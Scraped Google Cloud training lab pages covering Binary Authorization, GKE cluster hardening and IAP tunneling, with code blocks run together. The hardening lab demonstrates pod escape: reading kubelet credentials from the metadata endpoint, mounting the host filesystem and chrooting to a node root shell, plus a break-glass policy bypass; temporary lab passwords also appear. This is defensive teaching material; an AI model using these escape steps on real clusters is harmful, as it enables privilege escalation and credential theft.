The default policy should still show Disallow all images, but the cluster-specific rule should be requiring attestation.
Now, obtain the most recent SHA256 Digest of the signed image from the previous steps:
xxxxxxxxxxIMAGE_PATH="gcr.io/${PROJECT_ID}/nginx"IMAGE_DIGEST="$(gcloud container images list-tags --format='get(digest)' $IMAGE_PATH | head -1)"
Copied!
After waiting at least 30 seconds from the time the Binary Authorization policy was updated, run the pod and verify success:
xxxxxxxxxxcat << EOF | kubectl create -f -apiVersion: v1kind: Podmetadata:name: nginxspec:containers:- name: nginximage: "${IMAGE_PATH}@${IMAGE_DIGEST}"ports:- containerPort: 80EOF
Copied!
Congratulations! You have now manually attested to a container image and enforced a policy for that image inside your GKE cluster.
Test completed task
Click Check my progress to verify your performed task. If you have successfully updated Binary Authorization policy to modify cluster specific rule to allow only images that have been approved by attestors, you will see an assessment score.
Update BA policy to modify cluster specific rule to allow only images that have been approved by attestors
Check my progress
Task 12. Handling emergency situations
From a user's perspective, the Binary Authorization policy may incorrectly block an image or there may be another issue with the successful operation of the admission controller webhook.
In this "emergency" case, there is a "break glass" capability that leverages a specific annotation to signal to the admission controller to run the pod and skip policy enforcement.
Note: You will want to notify a security team when this occurs as this can be leveraged by malicious users if they have the ability to create a pod.
In this case, though, your response procedures can be started within seconds of the activity occurring. The logs are available in Stackdriver:
To run an unsigned
nginxcontainer with the "break glass" annotation, run:
xxxxxxxxxxcat << EOF | kubectl create -f -apiVersion: v1kind: Podmetadata:name: nginx-alphaannotations:alpha.image-policy.k8s.io/break-glass: "true"spec:containers:- name: nginximage: "nginx:latest"ports:- containerPort: 80EOF
Copied!
In the Google Cloud console, navigate to the Navigation menu > Logging > Logs Explorer page.
Populate the Query builder box with below and then Click Run Query:
xxxxxxxxxxresource.type="k8s_cluster" protoPayload.request.metadata.annotations."alpha.image-policy.k8s.io/break-glass"="true"Copied!
You should see events when the admission controller allowed a pod due to the annotation being present. From this filter, you can create a
Sinkwhich sends logs that match this filter to an external destination.
Note: Wait for atleast 5 to 10 minutes for the logs to appear.
Task 13. Tear down
Qwiklabs will remove all resources you created for this lab, but it's good to know how to clean up your own environment.
The following script will destroy the Kubernetes Engine cluster:
xxxxxxxxxx./delete.sh -c my-cluster-1
Copied!
If you created your own cluster name at the beginning of the lab, use that name. In this example the name my-cluster-1 was used.
The last lines of the output will be:
xxxxxxxxxxDeleting cluster
Note: Cluster delete command is being run asynchronously and will take a few moments to be removed. Use the Cloud Console UI or gcloud container clusters list command to track the progress if desired. Wait until cluster get removed.
Test completed task
Click Check my progress to verify your performed task. If you have successfully deleted your cluster, you will see an assessment score.
Tear Down (delete cluster)
Check my progress
The following commands will remove the remaining resources.
Delete the container image that was pushed to GCR:
xxxxxxxxxxgcloud container images delete "${IMAGE_PATH}@${IMAGE_DIGEST}" --force-delete-tags
Copied!
If prompted,
Do you want to continue (Y/n)?enterY.Delete the Attestor:
xxxxxxxxxxgcloud --project="${PROJECT_ID}" \beta container binauthz attestors delete "${ATTESTOR}"
Copied!
Delete the Container Analysis note:
xxxxxxxxxxcurl -X DELETE \-H "Authorization: Bearer $(gcloud auth print-access-token)" \"https://containeranalysis.googleapis.com/v1beta1/projects/${PROJECT_ID}/notes/${NOTE_ID}"
Copied!
Troubleshooting in your own environment
If you update the Binary Authorization policy and very quickly attempt to launch a new pod/container, the policy might not have time to take effect. You may need to wait 30 seconds or more for the policy change to become active. To retry, delete your pod using
kubectl delete <podname>and resubmit the pod creation command.Run
gcloud container clusters listcommand to check the cluster status.If you enable additional features like
--enable-network-policy,--accelerator,--enable-tpu, or--enable-metadata-concealment, you may need to add additional registries to your Binary Authorization policy allowlist for those pods to be able to run. Usekubectl describe pod <podname>to find the registry path from the image specification and add it to the allowlist in the form ofgcr.io/example-registry/*and save the policy.If you get errors about quotas, please increase your quota in the project. Learn more about resource quotas from the Resource quotas documentation.
Relevant materials
Congratulations!
Manual Last Updated October 4, 2024
Lab Last Tested April 4, 2024
Copyright 2024 Google LLC. This software is provided as-is, without warranty or representation for any use or purpose. Your use of it is subject to your agreement with Google.
LAB - Hardening Default GKE Cluster Configurations
Overview
This lab demonstrates some of the security concerns of a default GKE cluster configuration and the corresponding hardening measures to prevent multiple paths of pod escape and cluster privilege escalation. These attack paths are relevant in the following scenarios:
An application flaw in an external facing pod that allows for Server-Side Request Forgery (SSRF) attacks.
A fully compromised container inside a pod allowing for Remote Command Execution (RCE).
A malicious internal user or an attacker with a set of compromised internal user credentials with the ability to create/update a pod in a given namespace.
This lab was created by GKE Helmsman engineers to help you grasp a better understanding of hardening default GKE cluster configurations.
The example code for this lab is provided as-is without warranty or guarantee
Objectives
Upon completion of this lab you will understand the need for protecting the GKE Instance Metadata and defining appropriate PodSecurityPolicy policies for your environment.
You will:
Create a small GKE cluster using the default settings.
Validate the most common paths of pod escape and cluster privilege escalation from the perspective of a malicious internal user.
Harden the GKE cluster for these issues.
Validate the cluster so that those actions are no longer allowed.
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-02-e164b91bf60d@qwiklabs.netCopied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxx7ZUIm6rpni18Copied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.

Activate Cloud Shell
Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.
Click Activate Cloud Shell
Click through the following windows:
Continue through the Cloud Shell information window.
Authorize Cloud Shell to use your credentials to make Google Cloud API calls.
When you are connected, you are already authenticated, and the project is set to your Project_ID, qwiklabs-gcp-01-8af92117868a. The output contains a line that declares the Project_ID for this session:
xxxxxxxxxxYour Cloud Platform project in this session is set to qwiklabs-gcp-01-8af92117868a
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
(Optional) You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Click Authorize.
Output:
xxxxxxxxxxACTIVE: *ACCOUNT: student-02-e164b91bf60d@qwiklabs.netTo set the active account, run:$ gcloud config set account `ACCOUNT`
(Optional) You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = qwiklabs-gcp-01-8af92117868a
Note: For full documentation of gcloud, in Google Cloud, refer to the gcloud CLI overview guide.
Task 1. Create a simple GKE cluster
Set a zone into an environment variable called MY_ZONE. This lab is using "
us-east1-b", you can select a zone if you prefer:
xxxxxxxxxxexport MY_ZONE=us-east1-b
Copied!
Run this to start a Kubernetes cluster managed by Kubernetes Engine named
simpleclusterand configure it to run 2 nodes:
xxxxxxxxxxgcloud container clusters create simplecluster --zone $MY_ZONE --num-nodes 2 --metadata=disable-legacy-endpoints=false
Copied!
It takes several minutes to create a cluster as Kubernetes Engine provisions virtual machines for you. The warnings about features available in new versions can be safely ignored for this lab.
After the cluster is created, check your installed version of Kubernetes using the
kubectl versioncommand:
xxxxxxxxxxkubectl version
Copied!
The gcloud container clusters create command automatically authenticated kubectl for you.
View your running nodes in the Cloud Console. On the Navigation menu, click Compute Engine > VM Instances.
Your Kubernetes cluster is now ready for use.
Click Check my progress to verify the objective.
Create a simple GKE cluster
Check my progress
Task 2. Run a Google Cloud-SDK pod
From your Cloud Shell prompt, launch a single instance of the Google Cloud-SDK container:
xxxxxxxxxxkubectl run -it --rm gcloud --image=google/cloud-sdk:latest --restart=Never -- bash
Copied!
This will take a few minutes to complete.
Note: If you get a timed out error, run the command again.
You should now have a bash shell inside the pod's container:
xxxxxxxxxxroot@gcloud:/#
It may take a few seconds for the container to be started and the command prompt to be displayed. If you don't see a command prompt, try pressing Enter.
Explore the Compute Metadata endpoint
Run the following command to access the
v1Compute Metadata endpoint:
xxxxxxxxxxcurl -s http://metadata.google.internal/computeMetadata/v1/instance/name
Copied!
Output looks like:
xxxxxxxxxx...snip...Your client does not have permission to get URL <code>/computeMetadata/v1/instance/name</code> from this server. Missing Metadata-Flavor:Google header....snip...
Notice how it returns an error stating that it requires the custom HTTP header to be present.
Add the custom header on the next run and retrieve the Compute Engine instance name that is running this pod:
xxxxxxxxxxcurl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/name
Copied!
Output looks like:
xxxxxxxxxxgke-simplecluster-default-pool-b57a043a-6z5v
Note: If a custom HTTP header is not required to access a Compute Engine Instance Metadata endpoint, an attacker would need only an application flaw to trick a web URL to provide user credentials. By requiring a custom HTTP header, an attack is more difficult as the attacker would need both an application flaw and the custom header to be successful.
Keep this shell inside the pod available for the next step.
If you accidentally exit from the pod, simply re-run:
xxxxxxxxxxkubectl run -it --rm gcloud --image=google/cloud-sdk:latest --restart=Never -- bash
Copied!
Explore the GKE node bootstrapping credentials
From inside the same pod shell, run the following command to list the attributes associated with the underlying Compute Engine instances. Be sure to include the trailing slash:
xxxxxxxxxxcurl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/attributes/
Copied!
Perhaps the most sensitive data in this listing is kube-env. It contains several variables which the kubelet uses as initial credentials when attaching the node to the GKE cluster. The variables CA_CERT, KUBELET_CERT, and KUBELET_KEY contain this information and are therefore considered sensitive to non-cluster administrators.
To see the potentially sensitive variables and data, run the following command:
xxxxxxxxxxcurl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env
Copied!
Therefore, in any of the following situations:
A flaw that allows for SSRF in a pod application
An application or library flaw that allow for RCE in a pod
An internal user with the ability to create or exec into a pod
There exists a high likelihood for compromise and exfiltration of sensitive kubelet bootstrapping credentials via the Compute Metadata endpoint. With the kubelet credentials, it is possible to leverage them in certain circumstances to escalate privileges to that of cluster-admin and therefore have full control of the GKE Cluster including all data, applications, and access to the underlying nodes.
Leverage the Permissions assigned to this Node Pool's service account
By default, Google Cloud projects with the Compute API enabled have a default service account in the format of NNNNNNNNNN-compute@developer.gserviceaccount.com in the project and the Editor role attached to it. Also by default, GKE clusters created without specifying a service account will utilize the default Compute service account and attach it to all worker nodes.
Run the following
curlcommand to list the OAuth scopes associated with the service account attached to the underlying Compute Engine instance:
xxxxxxxxxxcurl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes
Copied!
(output)
xxxxxxxxxxhttps://www.googleapis.com/auth/devstorage.read_only https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/monitoring https://www.googleapis.com/auth/service.management.readonly https://www.googleapis.com/auth/servicecontrol https://www.googleapis.com/auth/trace.append
The combination of authentication scopes and the permissions of the service account dictates what applications on this node can access. The above list is the minimum scopes needed for most GKE clusters, but some use cases require increased scopes.
Warning: If, during cluster creation, you configured the authentication scope to include https://www.googleapis.com/auth/cloud-platform, any Google Cloud API would be in scope and only IAM permissions assigned to the service account would determine access.
Further, if the default service account with the default IAM Role of Editor is in use, any pod on this node pool has Editor permissions to the Google Cloud project where the GKE cluster is deployed. As the Editor IAM Role has a wide range of read/write permissions to interact with project resources such as Compute instances, Cloud Storage buckets, GCR registries, and more, this is a significant security risk.
Exit out of this pod by typing:
xxxxxxxxxxexit
Copied!
Note: If did not return to cloud shell press ctrl+c
Task 3. Deploy a pod that mounts the host filesystem
One of the simplest paths for "escaping" to the underlying host is by mounting the host's filesystem into the pod's filesystem using standard Kubernetes volumes and volumeMounts in a Pod specification.
To demonstrate this, run the following to create a Pod that mounts the underlying host filesystem
/at the folder named/rootfsinside the container:
xxxxxxxxxxcat <<EOF | kubectl apply -f -apiVersion: v1kind: Podmetadata:name: hostpathspec:containers:- name: hostpathimage: google/cloud-sdk:latestcommand: ["/bin/bash"]args: ["-c", "tail -f /dev/null"]volumeMounts:- mountPath: /rootfsname: rootfsvolumes:- name: rootfshostPath:path: /EOF
Copied!
Run
kubectl get podand re-run until it's in the "Running" state:
xxxxxxxxxxkubectl get pod
Copied!
(Output)
xxxxxxxxxxNAME READY STATUS RESTARTS AGEhostpath 1/1 Running 0 30s
Click Check my progress to verify the objective.
Deploy a pod that mounts the host filesystem
Check my progress
Task 4. Explore and compromise the underlying host
Run the following to obtain a shell inside the pod you just created:
xxxxxxxxxxkubectl exec -it hostpath -- bash
Copied!
Switch to the pod shell's root filesystem point to that of the underlying host:
xxxxxxxxxxchroot /rootfs /bin/bash
Copied!
With those simple commands, the pod is now effectively a root shell on the node. You are now able to do the following:
| run the standard docker command with full permissions | docker ps |
|---|---|
| list docker images | docker images |
docker run a privileged container of your choosing | docker run --privileged <imagename>:<imageversion> |
| examine the Kubernetes secrets mounted | mount | grep volumes | awk '{print $3}' | xargs ls |
exec into any running container (even into another pod in another namespace) | docker exec -it <docker container ID> sh |
Nearly every operation that the root user can perform is available to this pod shell. This includes persistence mechanisms like adding SSH users/keys, running privileged docker containers on the host outside the view of Kubernetes, and much more.
To exit the pod shell, run
exittwice - once to leave thechrootand another to leave the pod's shell:
xxxxxxxxxxexit
Copied!
xxxxxxxxxxexit
Copied!
Note: If did not return to cloud shell press ctrl+c
Now you can delete the
hostpathpod:
xxxxxxxxxxkubectl delete pod hostpath
Copied!
Understand the available controls
The next steps of this demo will cover:
Disabling the Legacy Compute Engine Metadata API Endpoint - By specifying a custom metadata key and value, the
v1beta1metadata endpoint will no longer be available from the instance.Enable Metadata Concealment - Passing an additional configuration during cluster and/or node pool creation, a lightweight proxy will be installed on each node that proxies all requests to the Metadata API and prevents access to sensitive endpoints.
Enable and Utilize Pod Security Admission - Enable the Pod Security Admission (PSA) controller in your GKE cluster. This provides the ability to enforce pod security standards that enhance your cluster's security posture.
Task 5. Deploy a second node pool
To enable you to experiment with and without the Metadata endpoint protections in place, you'll create a second node pool that includes two additional settings. Pods that are scheduled to the generic node pool will not have the protections, and Pods scheduled to the second node pool will have them enabled.
Note: Legacy endpoints were deprecated on September 30, 2020. In GKE versions 1.12 and newer, the --metadata=disable-legacy-endpoints=true setting is automatically enabled. The next command below explicitly defines it for clarity.
Create the second node pool:
xxxxxxxxxxgcloud beta container node-pools create second-pool --cluster=simplecluster --zone=$MY_ZONE --num-nodes=1 --metadata=disable-legacy-endpoints=true --workload-metadata-from-node=SECURE
Copied!
Click Check my progress to verify the objective.
Deploy a second node pool
Check my progress
Task 6. Run a Google Cloud-SDK pod
In Cloud Shell, launch a single instance of the Google Cloud-SDK container that will be run only on the second node pool with the protections enabled and not run as the root user:
xxxxxxxxxxkubectl run -it --rm gcloud --image=google/cloud-sdk:latest --restart=Never --overrides='{ "apiVersion": "v1", "spec": { "securityContext": { "runAsUser": 65534, "fsGroup": 65534 }, "nodeSelector": { "cloud.google.com/gke-nodepool": "second-pool" } } }' -- bash
Copied!
Note: If you get a timed out error, run the command again.
You should now have a bash shell inside the pod's container running on the node pool named
second-pool. You should see the following:
xxxxxxxxxxnobody@gcloud:/$
It may take a few seconds for the container to start and the command prompt to open.
If you don't see a command prompt, press Enter.
Explore various blocked endpoints
With the configuration of the second node pool set to
--workload-metadata-from-node=SECURE, the following command to retrieve the sensitive file,kube-env, will now fail:
xxxxxxxxxxcurl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env
Copied!
(Output)
xxxxxxxxxxThis metadata endpoint is concealed.
But other commands to non-sensitive endpoints will still succeed if the proper HTTP header is passed:
xxxxxxxxxxcurl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/name
Copied!
(Example Output)
xxxxxxxxxxgke-simplecluster-second-pool-8fbd68c5-gzzp
Exit out of the pod:
xxxxxxxxxxexit
Copied!
You should now be back in Cloud Shell.
Task 7. Enforce Pod Security Standards
In order to have the necessary permissions to proceed, grant explicit permissions to your own user account to become
cluster-admin:
xxxxxxxxxxkubectl create clusterrolebinding clusteradmin --clusterrole=cluster-admin --user="$(gcloud config list account --format 'value(core.account)')"
Copied!
(Output)
xxxxxxxxxxclusterrolebinding.rbac.authorization.k8s.io/clusteradmin created
Now you will enforce a pod security standard. Choose the most appropriate security standard for your 'default' namespace. The 'restricted' profile offers stronger security:
xxxxxxxxxxkubectl label namespace default pod-security.kubernetes.io/enforce=restricted
Copied!
Next you will create a ClusterRole. If you want to control who can modify Pod Security Admission levels on namespaces, create a ClusterRole called
pod-security-manager:
xxxxxxxxxxcat <<EOF | kubectl apply -f -apiVersion: rbac.authorization.k8s.io/v1kind: ClusterRolemetadata:name: pod-security-managerrules:- apiGroups: ['policy']resources: ['podsecuritypolicies']resourceNames: ['privileged', 'baseline', 'restricted']verbs: ['use']- apiGroups: ['']resources: ['namespaces']verbs: ['get', 'list', 'watch', 'label']EOF
Copied!
Next, you will create a RoleBinding. To restrict who can change namespace labels related to Pod Security Admission, create a RoleBinding in the 'default' namespace:
xxxxxxxxxxcat <<EOF | kubectl apply -f -apiVersion: rbac.authorization.k8s.io/v1kind: RoleBindingmetadata:name: pod-security-modifiernamespace: defaultsubjects:- kind: GroupapiGroup: rbac.authorization.k8s.ioname: system:authenticatedroleRef:apiGroup: rbac.authorization.k8s.iokind: ClusterRolename: pod-security-managerEOF
Copied!
Note: For highly customized and dynamic pod security enforcement, consider tools like OPA Gatekeeper or Kyverno.
Click Check my progress to verify the objective.
Deploy PodSecurityPolicy objects
Check my progress
Task 8. Deploy a blocked pod that mounts the host filesystem
Because the account used to deploy the GKE cluster was granted cluster-admin permissions in a previous step, it's necessary to create another separate "user" account to interact with the cluster and validate the PodSecurityPolicy enforcement.
To do this, run:
xxxxxxxxxxgcloud iam service-accounts create demo-developer
Copied!
(Output)
xxxxxxxxxxCreated service account [demo-developer].
Next, run these commands to grant these permissions to the service account - the ability to interact with the cluster and attempt to create pods:
xxxxxxxxxxMYPROJECT=$(gcloud config list --format 'value(core.project)')
Copied!
xxxxxxxxxxgcloud projects add-iam-policy-binding "${MYPROJECT}" --role=roles/container.developer --member="serviceAccount:demo-developer@${MYPROJECT}.iam.gserviceaccount.com"
Copied!
Obtain the service account credentials file by running:
xxxxxxxxxxgcloud iam service-accounts keys create key.json --iam-account "demo-developer@${MYPROJECT}.iam.gserviceaccount.com"
Copied!
Configure
kubectlto authenticate as this service account:
xxxxxxxxxxgcloud auth activate-service-account --key-file=key.json
Copied!
To configure
kubectlto use these credentials when communicating with the cluster, run:
xxxxxxxxxxgcloud container clusters get-credentials simplecluster --zone $MY_ZONE
Copied!
Now, try to create another pod that mounts the underlying host filesystem
/at the folder named/rootfsinside the container:
xxxxxxxxxxcat <<EOF | kubectl apply -f -apiVersion: v1kind: Podmetadata:name: hostpathspec:containers:- name: hostpathimage: google/cloud-sdk:latestcommand: ["/bin/bash"]args: ["-c", "tail -f /dev/null"]volumeMounts:- mountPath: /rootfsname: rootfsvolumes:- name: rootfshostPath:path: /EOF
Copied!
This output validatates that it's blocked by the pod security standard:
xxxxxxxxxxError from server (Forbidden): error when creating "STDIN": pods "hostpath" is forbidden: violates PodSecurity "restricted:latest": allowPrivilegeEscalation != false (container "hostpath" must set securityContext.allowPrivilegeEscalation=false), unrestricted capabilities (container "hostpath" must set securityContext.capabilities.drop=["ALL"]), restricted volume types (volume "rootfs" uses restricted volume type "hostPath"), runAsNonRoot != true (pod or container "hostpath" must set securityContext.runAsNonRoot=true), seccompProfile (pod or container "hostpath" must set securityContext.seccompProfile.type to "RuntimeDefault" or "Localhost")
Deploy another pod that meets the criteria of the
restrictive-psp:
xxxxxxxxxxcat <<EOF | kubectl apply -f -apiVersion: v1kind: Podmetadata:name: hostpathspec:securityContext:runAsNonRoot: true # Ensure a non-root userrunAsUser: 1000fsGroup: 2000seccompProfile: # Add a seccomp profiletype: RuntimeDefaultcontainers:- name: hostpathimage: google/cloud-sdk:latestcommand: ["/bin/bash"]args: ["-c", "tail -f /dev/null"]securityContext:allowPrivilegeEscalation: falsecapabilities:drop: ["ALL"]EOF
Copied!
(Output)
xxxxxxxxxxpod/hostpath created
Click Check my progress to verify the objective.
Deploy a blocked pod that mounts the host filesystem
Check my progress
Congratulations!
In this lab you configured a default Kubernetes cluster in Google Kubernetes Engine. You then probed and exploited the access available to your pod, hardened the cluster, and validated those malicious actions were no longer possible.
###
14 - Build a Secure Google Cloud Network
LAB - Securing Virtual Machines using BeyondCorp Enterprise (BCE)
Overview
In this lab, you will learn how to use BeyondCorp Enterprise (BCE) and Identity-Aware Proxy (IAP) TCP forwarding to enable administrative access to VM instances that do not have external IP addresses or do not permit direct access over the internet.
What you'll learn
Enable IAP TCP forwarding in your Google Cloud project
Test connectivity to your Linux and Windows instances
Configure the required firewall rules for BCE
Grant permissions to use IAP TCP forwarding
Demonstrate tunneling using SSH and RDP connections
Setup
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources will be made available to you.
This hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito or private browser window to run this lab. This prevents any conflicts between your personal account and the Student account, which may cause extra charges incurred to your personal account.
Time to complete the lab---remember, once you start, you cannot pause a lab.
Note: If you already have your own personal Google Cloud account or project, do not use it for this lab to avoid extra charges to your account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is the Lab Details panel with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-04-e5ae9b12916a@qwiklabs.netCopied!
You can also find the Username in the Lab Details panel.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxxAWZm7DHhCmiRCopied!
You can also find the Password in the Lab Details panel.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To view a menu with a list of Google Cloud products and services, click the Navigation menu at the top-left.
You will need a RDP client pre-installed so that you can connect and test Windows instances.
Task 1. Enable IAP TCP forwarding in your Google Cloud project
Open the Navigation Menu and select APIs and Services > Library.
Search for IAP and select Cloud Identity-Aware Proxy API.
Click Enable.
Task 2. Create Linux and Windows instances
Create three instances for this lab: - Two for demonstration purposes (Linux and Windows) - One for testing connectivity (Windows)
Linux instance
From the Navigation Menu and select Compute Engine.
Click Create instance and use the following configuration to create a VM. Leave the rest as default.
Name: linux-iap
Zone:
us-east4-a
Click on Advanced options and select Networking. Under network interfaces click the defult network to edit. Then change the External IPV4 address to None.
Click Done.
Then click create. This VM will be referred to as linux-iap
Windows instances
To create the Windows Demo VM click Create instance and use the following configuration to create a VM. Leave the rest as default.
Name: windows-iap
Zone:
us-east4-aUnder the boot disk section, click on Change
For the OS, select the following:
Public Images > Operating system > Windows Server
Version > Windows Server 2016 Datacenter
Click Select.
Click on Advanced options and select Networking. Under network interfaces click the defult network to edit. Then change the External IPV4 address to None. Click Done.
Then click create. This VM will be referred to as windows-iap
To create the Windows Connectivity VM, click Create instance and use the following configuration to create a VM. Leave the rest as default.
Name: windows-connectivity
Zone:
us-east4-aUnder the boot disk section, click on Change
For the OS, set the following on the Custom Images tab:
Source project for images:
Qwiklabs ResourcesImage:
iap-desktop-v001
Click Select.
For access scopes, select Allow full access to all Cloud APIs
Do not disable external IP for this instance
Then click create. This VM will be referred to as windows-connectivity
Check if all 3 instances have been created
Check my progress
Task 3. Test connectivity to your Linux and Windows instances
After the instances are created, You will test access to linux-iap and windows-iap to ensure that you aren’t able to access the VMs without the external IP.
For linux-iap click on the SSH button to get into the machine and ensure you get a message similar to the following.
For windows-iap: click the RDP button and ensure you get a message similar to the following:

The following steps for configuring and using IAP will allow you to connect to the instances that don’t have external IPs.
Task 4. Configure the required firewall rules for BCE
Open the Navigation Menu and select VPC Network > Firewall and click Create Firewall Rule
Configure the following settings:
| Field | Setting |
|---|---|
| Name | allow-ingress-from-iap |
| Direction of traffic | Ingress |
| Target | All instances in the network |
| Source filter | IPv4 Ranges |
| Source IPv4 Ranges | 35.235.240.0/20 |
| Protocols and ports | Select TCP and enter 22, 3389 to allow both SSH and RDP respectively |
Click CREATE to create the firewall rule.
Check proper firewall rules have been created.
Check my progress
Task 5. Grant permissions to use IAP TCP forwarding
Use the following steps to configure the iap.tunnelResourceAccessor role by VM.
Open Navigation Menu and select Security > Identity-Aware Proxy, switch to the SSH and TCP Resources tab (safely ignore the Oauth Consent screen error in the HTTPS section).
Select the linux-iap and windows-iap VM instances.
Click Add principal, then enter in the service account associated with your Windows connectivity VM. This should be of the form
265347518016-compute@developer.gserviceaccount.com.Select Cloud IAP > IAP-Secured Tunnel User for the role.
Click SAVE.
From the top-right of the page click the "S" icon to open your profile and copy the email of the student account.
Click Add principal again to add your student account.
Enter in the student account. You can copy this value from the lab details pane.
Select Cloud IAP > IAP-Secured Tunnel User for the role.
Click SAVE.
The IAP-Secured Tunnel User role will grant the windows-connectivity instance to connect to resources using IAP. Adding the student account will help verify the step was done correctly.
Check that IAM roles have been set for the service account.
Check my progress
Task 5. Use IAP Desktop to connect to the Windows and Linux instances
It is possible to use IAP Desktop to connect to instances using a graphical user interface from an instance with Windows Desktop. You can read more about IAP Desktop on the GitHub repository hosting the download for the tool.
To use IAP Desktop to connect to the instances in this lab:
RDP to the
windows-connectivityinstance by downloading the RDP file. Go to the Compute Engine > VM Instances page. Select the down arrow next to the windows-connectivity instance on the Compute Engine landing page and download the file.Open the RDP file to connect to the instance via Remote Desktop Protocol. You will use the credentials below to connect to the instance once prompted:
Username: student
Password: Learn123!
Once connected to the windows-connectivity instance, locate and open the IAP Desktop application on the desktop of the instance.
Once the application opens, click on the sign in with Google button to log in. Use the username and password provided in the lab console to authenticate with IAP Desktop. Make sure you select the option to "See, edit, configure and delete Google Cloud data."
You will need to add the project to connect to Compute Engine instances within IAP Desktop after authentication. Select the lab project associated with your lab instance:
Double click on the windows-iap instance in the IAP Desktop application to log into the the instance.
You may be prompted to provide credentials for the instance the first time you try to connect to it through IAP Desktop. Select "Generate new credentials" the first time logging into the instance.
After the credentials are created you will be taken to the desktop of the
windows-iapinstance and can see the end user experience.
Task 6. Demonstrate tunneling using SSH and RDP connections
You will testconnectivity to the RDP instance using an RDP client. This is because you need to connect to the instance via an IAP tunnel locally.
Go to the Compute Engine > VM Instances page.
For the windows-connectivity instance click the down arrow and select Set windows password. Copy the password and save it.
Then click down arrow next to connect and click download the RDP file. Open the RDP file with your client and enter in your password.
Once you have connected to the windows-connectivity instance. Open the Google Cloud Shell SDK:
Now from the command line enter the following command to see if you can connect to the linux-iap instance:
xxxxxxxxxxgcloud compute ssh linux-iap
Copied!
Click Y when promopted to continue and to select the zone.
Make sure that you select the right zone for the instance when prompted.
Then Accept the Putty security alert.
You should receive a message that no external IP address was found and that it will use IAP tunneling.
Update Putty Settings to allow Tunnel connections locally. Click the top left corner of the Putty Window > Change Settings.
Allow local ports to accept connections from other hosts by checking the checkbox "Local ports accept connections from other hosts".
Close the Putty session and click Apply. Use the following command to create an encrypted tunnel to the RDP port of the VM instance:
xxxxxxxxxxgcloud compute start-iap-tunnel windows-iap 3389 --local-host-port=localhost:0 --zone=us-east4-a
Copied!
Once you see the message about “Listening on port [XXX].” Copy the tunnel port number.
Return to the Google Cloud Console and go to the Compute Engine > VM Instances page.
Set and copy the password for the windows-iap instance.
Return to the RDP session now.
Leave gcloud running and open the Microsoft Windows Remote Desktop Connection app.
Enter the tunnel endpoint where the endpoint is the tunnel port number from the earlier step like so:
localhost:endpoint
Click Connect.
Then enter the previous credentials you copied earlier. You will be successfully RDPed into your instance now!
If prompted click Yes.
You were able to access the instance even without an external IP address using IAP
Confirm VM is accessible via IAP enabled SA
Check my progress
Congratulations! You were able to successfully connect to both instances using IAP.
Congratulations
